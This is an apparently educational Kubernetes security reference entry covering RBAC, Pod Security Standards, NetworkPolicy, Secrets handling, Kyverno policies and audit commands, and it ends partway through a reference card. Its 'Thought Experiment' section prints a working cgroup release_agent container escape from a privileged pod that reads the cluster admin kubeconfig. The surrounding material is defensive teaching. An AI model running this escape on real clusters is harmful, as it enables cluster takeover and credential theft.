

⚡ TL;DR - Kubernetes security requires protecting multiple layers: the cluster
(API server access, RBAC, audit logging), the workloads (Pod Security Standards,
no privileged containers, non-root users), the network (NetworkPolicy default-deny,
namespace isolation), and the supply chain (image scanning, trusted registries).
Core controls: RBAC (fine-grained permissions per ServiceAccount/user), Pod Security
Standards (Restricted/Baseline/Privileged profiles - use Restricted for most workloads),
NetworkPolicy (default-deny all ingress/egress, then open only required paths), Secrets
(NOT just base64-encoded YAML - use Vault/AWS Secrets Manager/External Secrets Operator
for real secrets), admission controllers (OPA Gatekeeper or Kyverno for policy enforcement
at the API server level before workloads deploy). Critical misconfigurations: privileged
containers (break container isolation), hostNetwork (pod sees all host network traffic),
hostPID (pod sees all host processes), RBAC wildcards (wildcard on verbs or resources
grants too much), `automountServiceAccountToken: true` on pods that don't need API access.

---

| #104 | Category: Security | Difficulty: ★★★ |
|:---|:---|:---|
| **Depends on:** | OWASP Top 10, Authentication, Session Management, IAM, TLS Configuration, OAuth Security, Business Logic, Insufficient Logging, Log4Shell, Advanced JWT, Advanced XSS, SSRF, CVSS Scoring, CVE + NVD, IR Process, Digital Forensics, AWS Security Services | |
| **Used by:** | SAST in CICD, Security Observability + SIEM, Security at Scale, DevSecOps Pipeline, Security Governance, SLSA Framework, Platform Security Engineering, Multi-Cloud Security, SSDLC | |
| **Related:** | OWASP Top 10, Authentication, TLS Configuration, OAuth Security, Business Logic, Insufficient Logging, Log4Shell, Advanced JWT, Advanced XSS, SSRF, CVSS Scoring, CVE + NVD, IR Process, Digital Forensics, AWS Security Services, SAST in CICD, Security Observability, Platform Security | |

---

### 🔥 The Problem This Solves

**WHY KUBERNETES REQUIRES DEFENSE-IN-DEPTH:**

```
THE KUBERNETES ATTACK SURFACE:

  A Kubernetes cluster is not a single target.
  It's a distributed system where compromise of one component
  enables escalation to adjacent components.
  
  ATTACK PATHS IN A POORLY SECURED CLUSTER:
  
  Path 1: Application Vulnerability → Cluster Node Takeover
  
    Step 1: Attacker finds RCE in a web application pod.
    Step 2: Pod runs as root (no runAsNonRoot).
    Step 3: Pod has hostPID=true (sees all processes on host).
    Step 4: Pod has hostPath volume mounting /etc/kubernetes.
    Step 5: Attacker reads kubeconfig from host filesystem.
    Step 6: Attacker has cluster-admin credentials.
    Step 7: Attacker creates privileged pod on any node.
    
    With privileged pod + hostPath to root (/): complete host takeover.
    
    What stopped this chain?
    NOTHING - because the pod was running:
    - As root (instead of runAsNonRoot: true)
    - With hostPID (instead of hostPID: false by default)
    - With hostPath volume (instead of restricted volume types)
    Pod Security Standard "Restricted" would have rejected this pod.
    
  Path 2: ServiceAccount Token → Lateral Movement
  
    Step 1: Attacker compromises a pod (via Log4Shell or similar).
    Step 2: Default: ServiceAccount token auto-mounted at
            /var/run/secrets/kubernetes.io/serviceaccount/token
    Step 3: Token has ClusterRoleBinding to "edit" ClusterRole
            (legacy from developer convenience setup).
    Step 4: Attacker uses token to create new privileged pods.
    Step 5: New pod: runs with privileged=true, hostPath mount.
    Step 6: Container escape to host. Full cluster compromise.
    
    What stopped this chain?
    NOTHING - because:
    - automountServiceAccountToken was not set to false for this pod.
    - The ServiceAccount had an overly permissive ClusterRoleBinding.
    Correct RBAC + automountServiceAccountToken: false would have stopped step 2-3.
    
  Path 3: Container Image Supply Chain Attack
  
    Step 1: Attacker compromises the build pipeline.
    Step 2: Malicious code added to a base container image.
    Step 3: Image pushed to registry, used by 200 pods.
    Step 4: 200 pods run with attacker backdoor.
    Step 5: Network: unrestricted (no NetworkPolicy).
    Step 6: Attacker lateral movement across all namespaces.
    
    What stopped this chain?
    NOTHING - because:
    - No image scanning (Trivy/Snyk) in CI/CD pipeline.
    - No admission controller requiring images from trusted registry.
    - No NetworkPolicy to limit blast radius if one pod is compromised.
    
  DEFENSE IN DEPTH (4 layers stop these paths):
  
  Layer 1 - Pod Security (Pod Security Standards: Restricted):
    Rejects: privileged containers, hostPID, hostNetwork, root containers.
    
  Layer 2 - RBAC (least privilege ServiceAccounts):
    ServiceAccount bound to Roles (not ClusterRoles) with minimum required verbs.
    automountServiceAccountToken: false for pods that don't need API access.
    
  Layer 3 - NetworkPolicy (default-deny):
    All ingress/egress denied unless explicitly allowed.
    Blast radius of one compromised pod: limited to explicitly allowed targets.
    
  Layer 4 - Admission Control (OPA Gatekeeper/Kyverno):
    Policy enforcement at admission time: before pods are even scheduled.
    "No images from unverified registries."
    "All images must have CVE scan passing with no Critical findings."
    "All pods must have resource limits."
```

---

### 📘 Textbook Definition

**RBAC (Role-Based Access Control):** Kubernetes access control mechanism using
four API objects: Role (namespace-scoped, allows verbs on resources), ClusterRole
(cluster-scoped, allows verbs on cluster-wide resources), RoleBinding (grants
a Role to a Subject within a namespace), ClusterRoleBinding (grants a ClusterRole
cluster-wide). Subjects: User, Group, ServiceAccount. Verbs: get, list, watch,
create, update, patch, delete. Wildcard (*) on verbs or resources: avoid.

**Pod Security Standards (PSS):** Kubernetes built-in pod security policies (from
v1.25, replacing deprecated Pod Security Policy). Three profiles:
- **Restricted:** Minimal permissions. No privilege escalation, non-root required, no host access, only specific volume types. Use for most application workloads.
- **Baseline:** Minimal widely-acceptable restrictions. Prevents known escalation paths. Use for legacy workloads that can't meet Restricted.
- **Privileged:** No restrictions. Use only for system-level workloads (kube-proxy, CNI, CSI drivers). Never for application workloads.
Enforcement modes: `enforce` (reject), `audit` (log), `warn` (user warning).

**NetworkPolicy:** Kubernetes resource that controls pod-to-pod and pod-to-external
network traffic at L3/L4. Default: all traffic allowed (no NetworkPolicy = no restrictions).
Requires a CNI plugin that supports NetworkPolicy (Calico, Cilium, Weave - not Flannel by default).
Best practice: default-deny all ingress + egress, then open required paths.

**Secrets (Kubernetes):** API object storing sensitive data (passwords, tokens, certificates)
as base64-encoded values in etcd. Base64 is NOT encryption: any authorized user can
decode. By default, Secrets are stored unencrypted in etcd. Secure patterns: etcd
encryption at rest, Vault (HashiCorp) or AWS Secrets Manager with External Secrets
Operator (ESO), or Sealed Secrets (Bitnami).

**Admission Controllers:** Plugins that intercept API server requests BEFORE persistence.
Mutating admission webhooks: modify resources. Validating admission webhooks: approve/reject.
OPA Gatekeeper: policy enforcement via CRDs (ConstraintTemplates + Constraints).
Kyverno: policy-as-YAML admission controller. Both enforce policies like: required labels,
disallowed images, resource limits required, no latest tag.

**ServiceAccount:** Kubernetes identity for pods (not humans). Each namespace has a
default ServiceAccount (avoid using it for applications). Pods are auto-mounted with
the ServiceAccount token unless `automountServiceAccountToken: false`. Use dedicated
ServiceAccounts per application, with minimal RBAC permissions.

---

### ⏱️ Understand It in 30 Seconds

**One line:**
Kubernetes security is defense-in-depth: Pod Security Standards (no root/privileged pods),
RBAC (least-privilege ServiceAccounts), NetworkPolicy (default-deny), Secrets management
(not just base64), and admission controllers (Gatekeeper/Kyverno enforce policies before
pods deploy).

**One analogy:**
> Kubernetes security is like securing an office building with many tenants (namespaces).
>
> RBAC = access cards: each employee (ServiceAccount) has a card that opens only
> the specific rooms they need (Role, not ClusterRole). No one has a master key (cluster-admin)
> except the security team.
>
> Pod Security Standards = building safety codes: no one can install explosives (privileged pods),
> chain off emergency exits (hostPID), or connect to the master electrical panel (hostNetwork)
> without explicit approval. The building inspector (PSS) rejects the tenant before move-in.
>
> NetworkPolicy = fire doors between floors and wings:
> By default, all fire doors are CLOSED. Each tenant only has a key to doors they need.
> If one tenant's office catches fire (pod compromise): fire doesn't spread automatically.
>
> Admission controllers (Gatekeeper/Kyverno) = building permit office:
> Before any tenant can move in (pod deploys), they must comply with all regulations.
> "No unlicensed vendors (unscanned images)." "All tenants must have fire suppression (resource limits)."
> Rejected at admission → never enters the building.
>
> Secrets management = the safe instead of sticky notes:
> Passwords stuck to the fridge (base64 in YAML on disk) = anyone can read them.
> Passwords in a vault (HashiCorp Vault, AWS Secrets Manager) = only authorized pods can access.

---

### 🔩 First Principles Explanation

**Kubernetes security controls and their mechanics:**

```
LAYER 1: RBAC - PRINCIPLE OF LEAST PRIVILEGE

  WRONG RBAC PATTERN:
  
    kind: ClusterRoleBinding
    metadata: name: my-app-admin
    roleRef:
      kind: ClusterRole
      name: cluster-admin   # DANGEROUS: full admin access
    subjects:
    - kind: ServiceAccount
      name: my-app
      namespace: production
    
    Why dangerous:
    - If my-app pod is compromised: attacker has cluster-admin.
    - cluster-admin = create/delete any resource in ANY namespace.
    - One compromised application pod = entire cluster takeover.
    
  CORRECT RBAC PATTERN:
  
    # Role: only what the application actually needs
    kind: Role
    apiVersion: rbac.authorization.k8s.io/v1
    metadata:
      name: my-app-role
      namespace: production  # Namespace-scoped
    rules:
    - apiGroups: [""]
      resources: ["configmaps"]
      verbs: ["get", "list", "watch"]  # Read-only, specific resource
      resourceNames: ["my-app-config"]  # Only THIS ConfigMap
    
    # Bind only to the specific ServiceAccount:
    kind: RoleBinding
    metadata:
      name: my-app-rolebinding
      namespace: production
    roleRef:
      kind: Role
      name: my-app-role
    subjects:
    - kind: ServiceAccount
      name: my-app-serviceaccount
      namespace: production
    
    # Disable auto-mount for pods that don't need API access:
    apiVersion: v1
    kind: ServiceAccount
    metadata:
      name: my-app-serviceaccount
      namespace: production
    automountServiceAccountToken: false  # Most apps don't need it

LAYER 2: POD SECURITY STANDARDS

  Enforce Restricted profile in production namespace:
  
    apiVersion: v1
    kind: Namespace
    metadata:
      name: production
      labels:
        pod-security.kubernetes.io/enforce: restricted
        pod-security.kubernetes.io/enforce-version: latest
        pod-security.kubernetes.io/audit: restricted
        pod-security.kubernetes.io/warn: restricted
  
  Restricted profile requirements for pods:
    spec.hostNetwork: false (default)
    spec.hostPID: false (default)
    spec.hostIPC: false (default)
    spec.volumes: only "allowed" types:
      (configMap, csi, downwardAPI, emptyDir, ephemeral,
       persistentVolumeClaim, projected, secret)
    spec.containers[*].privileged: false
    spec.containers[*].allowPrivilegeEscalation: false
    spec.containers[*].capabilities: only limited list OR drop ALL
    spec.containers[*].securityContext.runAsNonRoot: true
    spec.containers[*].securityContext.seccompProfile:
      type: RuntimeDefault (or Localhost)
    
  Pod manifest compliant with Restricted:
  
    spec:
      securityContext:
        runAsNonRoot: true
        runAsUser: 10001          # Non-root UID
        fsGroup: 10001
        seccompProfile:
          type: RuntimeDefault
      containers:
      - name: my-app
        image: my-registry.io/my-app:1.2.3@sha256:abc123  # Digest pin
        securityContext:
          allowPrivilegeEscalation: false
          readOnlyRootFilesystem: true
          capabilities:
            drop: ["ALL"]         # Drop all Linux capabilities
        resources:
          limits:
            cpu: "1"
            memory: "512Mi"
          requests:
            cpu: "100m"
            memory: "128Mi"

LAYER 3: NETWORKPOLICY (DEFAULT-DENY)

  # Default deny all ingress and egress in namespace:
  apiVersion: networking.k8s.io/v1
  kind: NetworkPolicy
  metadata:
    name: default-deny-all
    namespace: production
  spec:
    podSelector: {}       # Applies to ALL pods in namespace
    policyTypes:
    - Ingress
    - Egress
    # No ingress/egress rules = deny all
  
  # Allow only what's needed:
  # Example: allow ingress from API pods to DB pods on port 5432
  apiVersion: networking.k8s.io/v1
  kind: NetworkPolicy
  metadata:
    name: allow-api-to-db
    namespace: production
  spec:
    podSelector:
      matchLabels:
        app: postgres
    policyTypes:
    - Ingress
    ingress:
    - from:
      - podSelector:
          matchLabels:
            app: my-api
      ports:
      - protocol: TCP
        port: 5432
  
  # Allow DNS egress (required for service discovery):
  apiVersion: networking.k8s.io/v1
  kind: NetworkPolicy
  metadata:
    name: allow-dns-egress
    namespace: production
  spec:
    podSelector: {}
    policyTypes:
    - Egress
    egress:
    - ports:
      - protocol: UDP
        port: 53
      - protocol: TCP
        port: 53
```

---

### 🧪 Thought Experiment

**SCENARIO: Container escape via privileged pod:**

```
SETUP: Developer deploys a debugging pod in production.
       "I need to debug the database connection from inside the cluster."

INSECURE POD YAML (developer's request):

  apiVersion: v1
  kind: Pod
  metadata:
    name: debug-pod
    namespace: production
  spec:
    containers:
    - name: debug
      image: ubuntu:latest
      command: ["/bin/bash", "-c", "sleep infinity"]
      securityContext:
        privileged: true      # ← DANGEROUS
      volumeMounts:
      - name: host-root
        mountPath: /host
    volumes:
    - name: host-root
      hostPath:
        path: /          # ← ENTIRE HOST FILESYSTEM
        type: Directory
  
  What this enables:
    Inside the privileged container:
    
    # Attacker (or compromised developer) can:
    chroot /host /bin/bash   # Now in host filesystem as root
    cat /host/etc/kubernetes/admin.conf  # Cluster admin kubeconfig
    
    # Or escape container via cgroups (privileged pod technique):
    mkdir /tmp/cgrp
    mount -t cgroup -o memory cgroup /tmp/cgrp
    mkdir /tmp/cgrp/x
    echo 1 > /tmp/cgrp/x/notify_on_release
    echo "$(sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /proc/mounts)/cmd" \
      > /tmp/cgrp/release_agent
    echo '#!/bin/sh' > /cmd
    echo "cat /etc/kubernetes/admin.conf > /output" >> /cmd
    chmod a+x /cmd
    sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
    cat /output  # Cluster admin credentials from host
    
  DETECTION:
    Pod Security Standard "Restricted" → pod REJECTED at admission.
    OPA Gatekeeper ConstraintTemplate:
    "Pods must not use privileged mode."
    Admission webhook: 403 Forbidden before pod is created.
    
  CORRECT DEBUGGING APPROACH:
    1. kubectl debug (ephemeral debug containers - no privileged needed).
    2. Pre-approved debug namespace (separate from production, monitored).
    3. kubectl exec with minimal container image (curl, psql, etc.) already in app image.
    4. Remote shell via VS Code / DevSpace in isolated environment.
    
  LESSON:
    The developer's intent was benign (debugging).
    The mechanism enabled complete cluster compromise.
    Admission control prevents the mechanism before intent matters.
    Security controls must protect against mistakes, not just malice.
```

---

### 🧠 Mental Model / Analogy

> Kubernetes RBAC + PSS + NetworkPolicy form a "privilege pyramid."
>
> Default state of a Kubernetes cluster: FLAT.
> All pods can communicate. All ServiceAccounts can call the API.
> All pods can run as root. All volumes can mount host paths.
>
> Building the privilege pyramid (from bottom to top):
>
> Base layer (RBAC):
> "Who can do what?"
> Move from "any ServiceAccount can do anything" → "each ServiceAccount does only what it needs."
> This requires effort: write Roles for each application.
> The investment: each compromised pod has limited blast radius.
>
> Middle layer (Pod Security Standards):
> "What can pods do to the host?"
> Move from "any pod can run privileged, as root, with hostPath" → "Restricted by default."
> This prevents container escapes to the host.
>
> Top layer (NetworkPolicy):
> "Which pods can talk to which?"
> Move from "any pod can reach any pod" → "only authorized paths."
> This limits lateral movement if a pod is compromised.
>
> The pyramid principle:
> Each layer narrows the blast radius of a compromise.
> No single layer stops all attacks.
> All layers together: compromise of one pod → contained to that pod's permissions.
>
> The common mistake: believing Kubernetes defaults are secure.
> Kubernetes defaults are for EASE OF USE, not security.
> Default ServiceAccount auto-mount: on. Default NetworkPolicy: none.
> Default PSS enforcement: none. These are all "off" until you turn them on.
> A new Kubernetes cluster is maximally functional and minimally secure.
> Security is OPT-IN in Kubernetes.

---

### 📶 Gradual Depth - Five Levels

**Level 1 - What it is (anyone can understand):**
Kubernetes security is about making sure that if one of your apps running in Kubernetes gets hacked, the attacker can't take over everything else. The main tools are: limiting what each app can do in Kubernetes (RBAC), preventing apps from taking over the underlying servers (Pod Security Standards), blocking apps from talking to each other unless needed (NetworkPolicy), and storing passwords safely instead of just encoding them (proper Secrets management).

**Level 2 - How to use it (junior developer):**
For every deployment: (1) set `runAsNonRoot: true`, `allowPrivilegeEscalation: false`, `capabilities.drop: ["ALL"]` in securityContext. (2) Create a dedicated ServiceAccount (not default) with minimal RBAC. (3) Set `automountServiceAccountToken: false` if your app doesn't call the Kubernetes API. (4) Don't put plaintext secrets in YAML - use Kubernetes Secrets at minimum, Vault or External Secrets Operator for production. (5) Set resource limits (CPU and memory) on all containers. (6) Use specific image tags with digest pinning (never `latest`). Enable Trivy or Snyk in your CI/CD to scan container images.

**Level 3 - How it works (mid-level engineer):**
RBAC evaluation: request → subject (user/SA) → group membership → ClusterRoleBindings + RoleBindings → rules → allow/deny (deny by default). PSS enforcement: namespace label triggers API server webhook that evaluates pod spec against the chosen profile (Restricted/Baseline/Privileged). NetworkPolicy: CNI plugin (Calico/Cilium) implements iptables/eBPF rules for pod-to-pod filtering. Default deny = implicit deny when no matching NetworkPolicy allows. OPA Gatekeeper: CRD-based constraints deployed to cluster, API server webhooks call Gatekeeper's webhook server with OPA Rego policies. Kyverno: native Kubernetes admission controller with ClusterPolicy CRDs. Image scanning: Trivy (open source, sbom + CVE database), Snyk (commercial, developer-friendly), Grype. Integrate into CI/CD: fail build on CRITICAL findings in base image or dependencies.

**Level 4 - Why it was designed this way (senior/staff):**
Kubernetes RBAC uses deny-by-default: no permissions unless explicitly granted. This is the correct security model. The complication: Kubernetes has 50+ API resources and dozens of verbs. Writing fine-grained RBAC is complex. Common shortcut: use edit ClusterRole (allows write access to most resources in a namespace). This is too broad for most applications. A web app needs: read ConfigMaps (own config), maybe create Events (for event recording), possibly watch certain resources. Not: create/delete Deployments or read Secrets of other applications. The design tension: RBAC granularity vs developer productivity. Admission controllers (Gatekeeper/Kyverno) add a second layer of enforcement that can be applied consistently across teams without relying on individual developers to write correct security contexts. "Developers shouldn't need to know security; policies should enforce it." PSS replaced Pod Security Policy (deprecated v1.21, removed v1.25) because PSP was too complex (creating PodSecurityPolicies and binding them via RBAC was confusing). PSS is simpler: namespace labels, three fixed profiles.

**Level 5 - Mastery (distinguished engineer):**
eBPF-based security (Cilium/Falco): L7-aware NetworkPolicy (restrict HTTP methods per endpoint, not just TCP/UDP ports), runtime security (syscall filtering per pod, Falco rules for anomalous behavior like container spawning a shell). Workload Identity (AWS IRSA, GKE Workload Identity): pod gets IAM role credentials via projected ServiceAccount token, no long-lived credentials in Secrets. Zero trust for Kubernetes: mTLS via service mesh (Istio/Linkerd) between pods. Zero-trust principle: trust the workload identity, not the network position. Secret rotation: Vault dynamic secrets (database credentials rotated every use or every N minutes), External Secrets Operator syncs Vault/AWS Secrets Manager to Kubernetes Secrets. Supply chain security: SLSA (Supply-chain Levels for Software Artifacts) framework, image signing (Cosign + Sigstore), policy enforcement via Kyverno/Connaisseur: "only deploy signed images from our registry." Kubernetes audit logging: API server audit policy captures who accessed what. Direct to SIEM: detect anomalous API calls (kubectl exec to production pod at 3 AM by developer account).

---

### ⚙️ How It Works (Mechanism)

```
KUBERNETES ADMISSION FLOW:

  kubectl apply -f pod.yaml
         ↓
  API Server authenticates (mTLS / token)
         ↓
  RBAC authorization: "Does this user have create rights on pods?"
  Deny → 403 Forbidden
         ↓
  Admission Controllers (webhook-based):
  ┌─────────────────────────────────────────────┐
  │ Mutating Admission Webhooks                  │
  │ (modify resource before validation)          │
  │ - Add default resource limits                │
  │ - Add required labels                        │
  │ - Inject sidecars                            │
  └─────────────────────────────────────────────┘
         ↓
  ┌─────────────────────────────────────────────┐
  │ Validating Admission Webhooks                │
  │ (approve or reject)                          │
  │ - OPA Gatekeeper: no privileged pods         │
  │ - Kyverno: image from trusted registry only  │
  │ - PSS enforcement (built-in): Restricted OK? │
  └─────────────────────────────────────────────┘
  Reject → 403 Forbidden
         ↓
  Persisted to etcd → Scheduler assigns to node
```



---

### 💻 Code Example

**Kyverno policy and complete secure pod manifest:**

```yaml
# kyverno-policies.yaml
# Kyverno admission policies for Kubernetes security baseline.

# Policy 1: Require non-root user
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: require-run-as-non-root
  annotations:
    policies.kyverno.io/title: Require Non-Root User
    policies.kyverno.io/category: Pod Security
    policies.kyverno.io/severity: high
spec:
  validationFailureAction: Enforce  # Reject non-compliant pods
  background: true  # Also audit existing resources
  rules:
  - name: check-containers-run-as-non-root
    match:
      any:
      - resources:
          kinds: ["Pod"]
          namespaces: ["production", "staging"]
    validate:
      message: "Containers must not run as root user."
      pattern:
        spec:
          =(securityContext):
            =(runAsNonRoot): "true"
          containers:
          - =(securityContext):
              =(runAsNonRoot): "true"

---
# Policy 2: Disallow privileged containers
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: disallow-privileged-containers
spec:
  validationFailureAction: Enforce
  rules:
  - name: check-privileged
    match:
      any:
      - resources: {kinds: ["Pod"]}
    validate:
      message: "Privileged containers are not allowed."
      pattern:
        spec:
          containers:
          - =(securityContext):
              =(privileged): "false"
          =(initContainers):
          - =(securityContext):
              =(privileged): "false"

---
# Policy 3: Require image digest pinning (no mutable tags)
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: require-image-digest
spec:
  validationFailureAction: Enforce
  rules:
  - name: check-image-digest
    match:
      any:
      - resources:
          kinds: ["Pod"]
          namespaces: ["production"]
    validate:
      message: >
        Production images must use digest pinning.
        Use: my-registry.io/image:tag@sha256:abc123
      pattern:
        spec:
          containers:
          - image: "*@sha256:*"  # Must include @sha256:

---
# Policy 4: Require resource limits
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: require-resource-limits
spec:
  validationFailureAction: Enforce
  rules:
  - name: check-container-resources
    match:
      any:
      - resources: {kinds: ["Pod"]}
    validate:
      message: "All containers must have resource limits."
      pattern:
        spec:
          containers:
          - resources:
              limits:
                memory: "?*"  # Must be set
                cpu: "?*"
```

```yaml
# secure-pod-manifest.yaml
# Production-ready pod manifest with full security controls.

apiVersion: v1
kind: ServiceAccount
metadata:
  name: my-api-sa
  namespace: production
automountServiceAccountToken: false  # Opt-in only

---
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: my-api-role
  namespace: production
rules:
- apiGroups: [""]
  resources: ["configmaps"]
  verbs: ["get", "list"]
  resourceNames: ["my-api-config"]  # Only this specific ConfigMap

---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: my-api-rolebinding
  namespace: production
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: Role
  name: my-api-role
subjects:
- kind: ServiceAccount
  name: my-api-sa
  namespace: production

---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: my-api
  namespace: production
spec:
  replicas: 3
  selector:
    matchLabels:
      app: my-api
  template:
    metadata:
      labels:
        app: my-api
    spec:
      serviceAccountName: my-api-sa
      automountServiceAccountToken: false
      
      # Pod-level security context:
      securityContext:
        runAsNonRoot: true
        runAsUser: 10001
        runAsGroup: 10001
        fsGroup: 10001
        seccompProfile:
          type: RuntimeDefault  # Restrict syscalls
      
      containers:
      - name: my-api
        # Digest-pinned image (immutable):
        image: my-registry.io/my-api:1.2.3@sha256:a3b8c...
        
        ports:
        - containerPort: 8080
          protocol: TCP
        
        # Container-level security context:
        securityContext:
          allowPrivilegeEscalation: false  # No setuid/setgid
          readOnlyRootFilesystem: true     # No writes to container FS
          capabilities:
            drop: ["ALL"]   # Drop all Linux capabilities
            # Add only what's needed:
            # add: ["NET_BIND_SERVICE"]  # Only if binding to port < 1024
        
        # Resource limits (prevent DoS from runaway containers):
        resources:
          requests:
            cpu: "100m"
            memory: "128Mi"
          limits:
            cpu: "1"
            memory: "512Mi"
        
        # Liveness and readiness probes:
        livenessProbe:
          httpGet:
            path: /healthz
            port: 8080
          initialDelaySeconds: 15
          periodSeconds: 20
        readinessProbe:
          httpGet:
            path: /ready
            port: 8080
        
        # Writable directories via emptyDir volumes only:
        volumeMounts:
        - name: tmp
          mountPath: /tmp
        - name: logs
          mountPath: /app/logs
      
      volumes:
      - name: tmp
        emptyDir: {}     # writable temp space
      - name: logs
        emptyDir: {}     # writable log space
      
      # Node affinity: only schedule on dedicated nodes (if required):
      # nodeSelector:
      #   workload-type: production-app
      
      # Topology spread for HA:
      topologySpreadConstraints:
      - maxSkew: 1
        topologyKey: kubernetes.io/hostname
        whenUnsatisfiable: DoNotSchedule
        labelSelector:
          matchLabels:
            app: my-api
```

---

### ⚖️ Comparison Table

| Control | Without Security | With Security | Blast Radius Reduction |
|:---|:---|:---|:---|
| **RBAC (least privilege)** | Compromised pod = cluster admin access | Compromised pod = access to own ConfigMaps only | 100x → 1x (scoped to namespace) |
| **Pod Security Standards (Restricted)** | Privileged pod = container escape to host | Rejected at admission | Container compromise = pod only |
| **NetworkPolicy (default-deny)** | Compromised pod reaches all pods | Compromised pod only reaches explicitly allowed targets | All pods → 2-3 specific pods |
| **automountServiceAccountToken: false** | Token usable for API calls from compromised pod | No token in pod = no API access | API server access blocked |
| **Image scanning (Trivy)** | Deploying CVE-2021-44228 (CVSS 10.0) in base image | Build fails: critical CVE detected | Never deployed |

---

### ⚠️ Common Misconceptions

| Misconception | Reality |
|:---|:---|
| "Kubernetes Secrets are encrypted." | Kubernetes Secrets are stored as base64-encoded values in etcd. Base64 is NOT encryption: it's reversible encoding. Any authorized Kubernetes user with `kubectl get secret` permission can decode the value instantly with `base64 -d`. By default, etcd itself stores Secrets unencrypted on disk. To actually encrypt Secrets: (1) Enable etcd encryption at rest (EncryptionConfiguration API server option - encrypts the etcd storage but not in-transit), (2) Use HashiCorp Vault or AWS Secrets Manager with External Secrets Operator (the actual secret never enters etcd), (3) Use Sealed Secrets (Bitnami) for GitOps (encrypted in git, decrypted in cluster). Simply using `kind: Secret` in Kubernetes does NOT provide cryptographic security for your sensitive values. |
| "namespaces provide security isolation in Kubernetes." | Namespaces provide a naming scope and resource quota boundaries. Without additional controls, they do NOT provide security isolation. A pod in namespace A can communicate with a pod in namespace B (by default, no NetworkPolicy = all traffic allowed). A ClusterRoleBinding grants cluster-wide access regardless of namespace. A privileged pod can escape to the host regardless of namespace. Real isolation requires: (1) NetworkPolicy (traffic isolation), (2) RBAC scoped to namespace only with no ClusterRoleBindings, (3) Pod Security Standards (prevent escape to host), (4) Separate node pools (physical isolation - most strict). Namespaces alone ≠ security isolation. They are an organizational tool, not a security boundary. |

---

### 🚨 Failure Modes & Diagnosis

**Kubernetes security audit commands:**

```
SECURITY AUDIT COMMANDS:

  1. CHECK FOR CLUSTER-ADMIN BINDINGS (highest risk):
  kubectl get clusterrolebindings -o json | jq -r \
    '.items[] | select(.roleRef.name == "cluster-admin") | 
    "\(.metadata.name): \(.subjects[]?.kind)/\(.subjects[]?.name)"'
  # Expected: only system:masters, kube-system components
  # Unexpected: any application ServiceAccount
  
  2. CHECK FOR PRIVILEGED PODS:
  kubectl get pods -A -o json | jq -r \
    '.items[] | select(.spec.containers[].securityContext.privileged==true) |
    "\(.metadata.namespace)/\(.metadata.name)"'
  # Expected: empty (or only kube-system CNI/CSI pods)
  # Unexpected: application pods
  
  3. CHECK FOR HOST NAMESPACE USAGE:
  kubectl get pods -A -o json | jq -r \
    '.items[] | select(
      .spec.hostNetwork==true or 
      .spec.hostPID==true or 
      .spec.hostIPC==true
    ) | "\(.metadata.namespace)/\(.metadata.name): hostNetwork=\(.spec.hostNetwork) hostPID=\(.spec.hostPID)"'
  
  4. CHECK PODS RUNNING AS ROOT:
  kubectl get pods -A -o json | jq -r \
    '.items[] | select(
      (.spec.securityContext.runAsNonRoot != true) or
      (.spec.containers[].securityContext.runAsNonRoot != true)
    ) | "\(.metadata.namespace)/\(.metadata.name)"'
  
  5. CHECK FOR MISSING RESOURCE LIMITS:
  kubectl get pods -A -o json | jq -r \
    '.items[] | select(
      .spec.containers[].resources.limits == null
    ) | "\(.metadata.namespace)/\(.metadata.name)"'
  
  6. CHECK NETWORKPOLICY COVERAGE:
  # Namespaces with NO NetworkPolicies (fully open):
  kubectl get namespaces -o jsonpath="{.items[*].metadata.name}" | \
    tr " " "\n" | while read ns; do
      count=$(kubectl get networkpolicies -n $ns --no-headers 2>/dev/null | wc -l)
      if [ "$count" -eq "0" ]; then
        echo "UNPROTECTED: $ns (no NetworkPolicy)"
      fi
    done
  
  7. SCAN IMAGES FOR CVES (Trivy):
  trivy image --severity CRITICAL,HIGH \
    --ignore-unfixed \
    my-registry.io/my-app:1.2.3
  # --ignore-unfixed: only report CVEs with available fixes
  # Output: table of CVEs with CVSS scores
  
  8. CHECK SECRETS FOR PLAINTEXT IN CONFIGMAPS (common mistake):
  kubectl get configmaps -A -o json | jq -r \
    '.items[].data | to_entries[] | 
    select(.key | test("password|secret|token|key|credential"; "i")) |
    "\(.key): [SENSITIVE DATA CHECK]"'
  # If this returns results: sensitive data may be in ConfigMaps (unencrypted)
```

---

### 🔗 Related Keywords

**Prerequisites:**
- `AWS Security Services` (SEC-103) - EKS uses GuardDuty EKS threat detection

**Builds on this:**
- `SAST in CICD` (SEC-105) - container image scanning in the pipeline
- `Platform Security Engineering` (SEC-124) - Kubernetes as the security platform
- `SLSA Framework` (SEC-123) - supply chain security for container images

---

### 📌 Quick Reference Card

```
┌──────────────────────────────────────────────────────────┐
│ PSS PROFILES  │ Restricted (most app workloads)          │
